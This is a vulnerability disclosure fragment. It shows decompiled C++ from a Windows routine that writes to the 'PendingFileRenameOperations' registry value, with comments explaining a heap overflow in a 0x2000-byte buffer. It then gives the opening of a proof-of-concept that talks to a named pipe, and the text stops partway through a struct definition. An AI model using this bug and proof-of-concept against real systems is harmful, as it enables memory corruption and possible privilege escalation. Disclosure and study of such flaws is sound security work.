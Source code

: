 ```C++
{
    // ... Locals ...
    if ( !RegOpenKeyExA(
            HKEY_LOCAL_MACHINE,
            "SYSTEM\\CurrentControlSet\\Control\\Session Manager",
            0,
            0xF003Fu,
            &phkResult) )
    {
        cbData = 0x2000;
        v3 = GetProcessHeap();
        v2 = (BYTE *)HeapAlloc(v3, 0, 0x2000u);
        if ( v2 )
        {
            v4 = (CHAR *)v2;
            if ( !RegQueryValueExA(phkResult, "PendingFileRenameOperations", 0, &Type, v2, &cbData) )
                v4 = (CHAR *)&v2[cbData - 1];
            // VULN: v4 is a pointer into v2 which is a 0x2000 byte heap allocated buffer. If 
            // we just read in 0x1fff characters into this then anything we append will
            // cause a heap overflow. Hence the PoC code hits this multiple times.
            v5 = &v4[wsprintfA(v4, "\\??\\%s", pszFile1)];
            *v5 = 0;
            v6 = v5 + 1;
            if ( a2 )
                // VULN: Same as previous comment.
                v6 += wsprintfA(v6, "\\??\\%s", pszFile2);
            *v6 = 0;
            v7 = v6 + 1;
            *v7 = 0;
            cbData = v7 - v2 + 1;
            if ( !RegSetValueExA(phkResult, "PendingFileRenameOperations", 0, 7u, v2, cbData) )
                v12 = 1;
        }
    }
    if ( phkResult )
        RegCloseKey(phkResult);
    if ( v2 )
    {
        v8 = GetProcessHeap();
     HeapFree(v8, 0, v2);
    }
    return v12;
}
```

# PoC Code
```C++
#include <Windows.h>
#include <stdio.h>

/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
```